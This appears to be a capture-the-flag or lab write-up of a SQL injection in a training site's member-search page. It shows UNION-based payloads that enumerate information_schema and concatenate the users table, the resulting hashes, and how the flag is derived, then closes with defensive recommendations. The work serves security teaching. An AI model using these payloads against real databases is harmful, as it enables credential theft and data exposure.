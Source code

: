 # SQL injection (via member page) vulnerability report

### Location: ***http://192.168.56.3/index.php?page=member***

## Description:

On the user research page we tried to find a user by his ID. If we submit _1_, we get:

```
ID: 1 
First name: one
Surname : me
```

But when we test `SELECT * FROM users`, there is a SQL syntax error.

```
You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'SELECT * FROM users' at line 1
```

We can create a SQL statement that attempts to retrieve the version information from the database.

1 OR 1=1 UNION SELECT 1, (SELECT @@version)-- 

```
...
ID: 1 OR 1=1 UNION SELECT 1, (SELECT @@version)-- 
First name: Flag
Surname : GetThe

ID: 1 OR 1=1 UNION SELECT 1, (SELECT @@version)-- 
First name: 1
Surname : 5.5.64-MariaDB-1ubuntu0.14.04.1
```

Given that the syntax with special symbols didn't work we tried to execute simple SQL injection `1 OR 1=1` and we got this result:

```
ID: 1 OR 1=1 
First name: one
Surname : me

ID: 1 OR 1=1 
First name: two
Surname : me

ID: 1 OR 1=1 
First name: three
Surname : me

ID: 1 OR 1=1 
First name: Flag
Surname : GetThe
```

Now we know that we should find the `Flag` user and retrieve the name of the databases of the _users_ table. And we also know that the database is vulnerable to boolean-based SQL injection. Now let's test the commands without quotes, special symbols or punctuation.

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

And we got this information for users table.

```
...
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire

ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```
Now we should got the _value_ of those columns without using normal syntax. 

We tried to use this command line:

`1 UNION SELECT user_id, first_name, last_name, town, country, planet, Commentaire, countersign FROM users`, 
but we got the same SQL syntax error.

Here it better _concatenate_ users columns to get the Flag:

`1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users`


```
ID: 1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: one
Surname : me

ID: 1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 1onemeParis FranceEARTHJe pense, donc je suis2b3366bcfd44f540e630d4dc2b9b06d9
Surname : 1

ID: 1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 2twomeHelsinkiFinlandeEarthAamu on iltaa viisaampi.60e9032c586fb422e2c16dee6286cf10
Surname : 1

ID: 1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 3threemeDublinIrlandeEarthDublin is a city of stories and secrets.e083b24a01c483437bcf4a9eea7c1b4d
Surname : 1

ID: 1 UNION SELECT CONCAT( user_id, first_name, last_name, town, country, planet, Commentaire,  countersign ) AS test, 1 FROM users 
First name: 5FlagGetThe424242Decrypt this password -> then lower all the char. Sh256 on it and it's good !5ff9d0165b4f92b14994e5c685cdce28
Surname : 1
```
When we decrypt 5ff9d0165b4f92b14994e5c685cdce28 from MD5 we get `FortyTwo`. Now we lower all capital char and encrypt it in SHA256.


## Recommendations:

1. Input _validation_ and _sanitization_ on all user inputs.

2. Use _prepared_ statements or _parameterized_ queries.

3. Grant users only the permissions they _absolutely_ need, avoid using _overly permissive_ database accounts.
